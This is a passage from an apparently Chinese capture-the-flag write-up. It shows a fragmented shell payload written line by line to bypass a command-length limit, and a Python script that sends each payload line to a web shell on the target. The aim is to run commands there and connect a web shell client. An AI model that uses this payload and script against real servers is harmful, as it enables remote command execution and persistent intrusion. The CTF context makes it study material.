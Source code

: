 ```bash
>\=\\
>w=\\
>pO\\
>V0\\
>bM\\
>1R\\
>PU\\
>1B\\
>kX\\
>Cg\\ 
>hb\\
>XZ\\
>gZ\\
>HA\\
>a\\
>9w\\
>PD\\
>S}\\
>IF\\
>{\\
>\$\\
>o\\
>ch\\
>e\\
sh 0
sh f
```

5、Python脚本
前面也看到了，我们要是纯靠手把这些payload全部输进去还是有些麻烦的，所以说我们还是写个python脚本来代替我们发起这些请求：
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import requests
headers = {'User-Agent' : 'ccc'}
url = "http://xx.xxx.xx.xxx:10001/shell.php?pass=LTLT_666&big_hacker_LTLT={0}"
print("[+]start attack!!!")
with open("payload.txt","r") as f:
    for i in f:
        print("[*]" + url.format(i.strip()))
        requests.get(url.format(i.strip()),headers=headers)
```
这里面我加了个UA头是因为核心代码中说了目录名就是`/var/www/html/wllm/'.md5("wllm" . $_SERVER['HTTP_USER_AGENT'])`那相当于我这个目录名就是`/var/www/html/md5(wllmccc)`，也就是`/var/www/html/wllm/09dfd2544882e2d4cfc851dcb1e78c4f`，payload.txt中的内容就是上面那段payload，接下来开始跑脚本：
![[Pasted image 20250330095036.png]]
跑完脚本去看这个文件是否已经生成，发现已经生成，那就大功告成了，执行命令和用蚁剑连接都是可以的哦